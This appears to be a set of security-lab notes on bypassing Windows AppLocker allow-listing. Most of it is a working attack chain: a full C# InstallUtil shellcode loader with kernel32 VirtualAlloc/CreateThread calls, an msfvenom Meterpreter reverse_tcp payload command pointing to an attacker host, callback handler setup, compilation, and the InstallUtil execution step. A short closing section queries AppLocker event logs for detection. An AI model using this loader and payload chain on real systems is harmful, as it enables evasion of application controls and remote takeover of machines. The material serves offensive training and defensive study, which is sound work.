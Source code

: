 # Application Allow List Bypass Notes

List of app bypasses
[UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)


Start the AppLocker service on Windows by running 

```Get-Service appidsvc | Start-Service```

verify applocker settings

```
cd \tools
.\meterpreter.exe
(Get-AppLockerPolicy -Local).RuleCollections
.\nc.exe
```

Identiy .NET tools

```
Get-ChildItem -name csc.exe -Path C:\Windows\Microsoft.NET -Recurse
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe
Get-ChildItem -name installutil.exe -Path C:\Windows\Microsoft.NET -Recurse
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe
```

Examine evasion code

cat Shellcode.cs


```
/*
Author: Casey Smith, Twitter: @subTee
License: BSD 3-Clause

Minor cleanup and clarity changes by Joshua Wright <josh@wr1ght.net> @joswr1ght
*/
using System;
using System.Net;
using System.Diagnostics;
using System.Reflection;
using System.Configuration.Install;
using System.Runtime.InteropServices;


public class Program
{
    public static void Main()
    {
        //Add any behaviour here to throw off sandbox execution/analysts :)
        Console.WriteLine("Hello From Main...I Don't Do Anything.\n");
    }
}

[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    //The Methods can be Uninstall/Install.  Install is transactional, and really unnecessary.
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        Shellcode.Exec();
    }
}

public class Shellcode
{
    public static void Exec()
    {
        // Paste Metasploit payload below
        // msfvenom --payload windows/meterpreter/reverse_tcp LHOST=10.10.75.1 -f csharp
        // The payload will start with byte[] buf = new byte[...


        //
        // Leave everything else as-is
        //
        UInt32 funcAddr = VirtualAlloc(0, (UInt32)buf .Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(buf , 0, (IntPtr)(funcAddr), buf .Length);
        IntPtr hThread = IntPtr.Zero;
        UInt32 threadId = 0;
        IntPtr pinfo = IntPtr.Zero;

        // execute native code
        hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

    [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern bool VirtualFree(IntPtr lpAddress,
            UInt32 dwSize, UInt32 dwFreeType);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
            );

    [DllImport("kernel32")]
    private static extern bool CloseHandle(IntPtr handle);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );

    [DllImport("kernel32")]
    private static extern IntPtr GetModuleHandle(
            string moduleName
            );

    [DllImport("kernel32")]
    private static extern UInt32 GetProcAddress(
            IntPtr hModule,
            string procName
            );

    [DllImport("kernel32")]
    private static extern UInt32 LoadLibrary(
            string lpFileName
            );

    [DllImport("kernel32")]
    private static extern UInt32 GetLastError();
}
```

prepare evasion code

```
msfvenom --payload windows/meterpreter/reverse_tcp LHOST=10.10.75.1 -f csharp
```

take this above and put into the shellcode vaues in the Shellcode.cs above

Prepare Callback Handler

```
msfconsole -qr ~/labs/quick/handler.rc
```

Compile Shellcode.cs

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x86 /out:shellcode.exe Shellcode.cs
Get-ChildItem .\shellcode.exe
```

Run the shellcode

```
.\shellcode.exe
```

uninstall

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U shellcode.exe
```

Defender analysis

```
Get-WinEvent -LogName 'Microsoft-Windows-AppLocker/EXE and DLL' | Select-Object -First 10
Get-WinEvent -LogName 'Microsoft-Windows-AppLocker/EXE and DLL' | Where-Object -Property Id -EQ 8004
$start = Get-Date -Format '5/12/2022 10:41:26'
Get-WinEvent -FilterHashTable @{LogName='Microsoft-Windows-AppLocker/EXE and DLL'; Id=8002,8004; StartTime=$start;} | Select-Object TimeCreated, Id, Message, ProcessId, Userid | ConvertTo-Html | Out-File c:\temp\event-report.html
Start-Process C:\temp\event-report.html
```
